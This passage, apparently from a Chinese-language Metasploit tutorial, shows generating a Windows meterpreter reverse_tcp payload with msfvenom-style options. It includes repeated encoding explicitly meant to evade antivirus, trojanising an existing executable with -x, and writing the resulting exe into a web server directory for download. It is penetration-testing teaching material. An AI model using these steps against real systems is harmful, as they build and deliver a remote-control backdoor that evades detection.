 通过`file`命令查看生成的文件

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-10_09-51-23.png"/>

#### 保存

使用参数`-o`将载荷保存到指定位置

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-10_09-47-50.png"/>

#### 迭代

使用参数`-i`指定编码的迭代次数，它告诉框架在生成最终有效载荷之前必须执行多少次编码。这样做的原因是隐形或反病毒检测。

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-10_09-50-45.png"/>

## 案例

1. 选定载荷，设置相关参数

   ```
   msf5 exploit(multi/handler) > use payload/windows/meterpreter/reverse_tcp
   msf5 payload(windows/meterpreter/reverse_tcp) > show options 
   
   Module options (payload/windows/meterpreter/reverse_tcp):
   
      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.80.200   yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port
   
   ```

2. 生成载荷, `-x`参数将指定文件挂上木马

   ```
   msf5 payload(windows/meterpreter/reverse_tcp) > generate -h
   Usage: generate [options]
   
   Generates a payload. Datastore options may be supplied after normal options.
   
   Example: generate -f python LHOST=127.0.0.1
   
   OPTIONS:
   
       -E        Force encoding
       -O <opt>  Deprecated: alias for the '-o' option
       -P <opt>  Total desired payload size, auto-produce appropriate NOP sled length
       -S <opt>  The new section name to use when generating (large) Windows binaries
       -b <opt>  The list of characters to avoid example: '\x00\xff'
       -e <opt>  The encoder to use
       -f <opt>  Output format: base32,base64,bash,c,csharp,dw,dword,hex,java,js_be,js_le,num,perl,pl,powershell,ps1,py,python,raw,rb,ruby,sh,vbapplication,vbscript,asp,aspx,aspx-exe,axis2,dll,elf,elf-so,exe,exe-only,exe-service,exe-small,hta-psh,jar,jsp,loop-vbs,macho,msi,msi-nouac,osx-app,psh,psh-cmd,psh-net,psh-reflection,python-reflection,vba,vba-exe,vba-psh,vbs,war
       -h        Show this message
       -i <opt>  The number of times to encode the payload
       -k        Preserve the template behavior and inject the payload as a new thread
       -n <opt>  Prepend a nopsled of [length] size on to the payload
       -o <opt>  The output file name (otherwise stdout)
       -p <opt>  The platform of the payload
       -v        Verbose output (display stage in addition to stager)
       -x <opt>  Specify a custom executable file to use as a template
   msf5 payload(windows/meterpreter/reverse_tcp) > generate -i 10 -f exe -o /var/www/html/tt.exe
   ```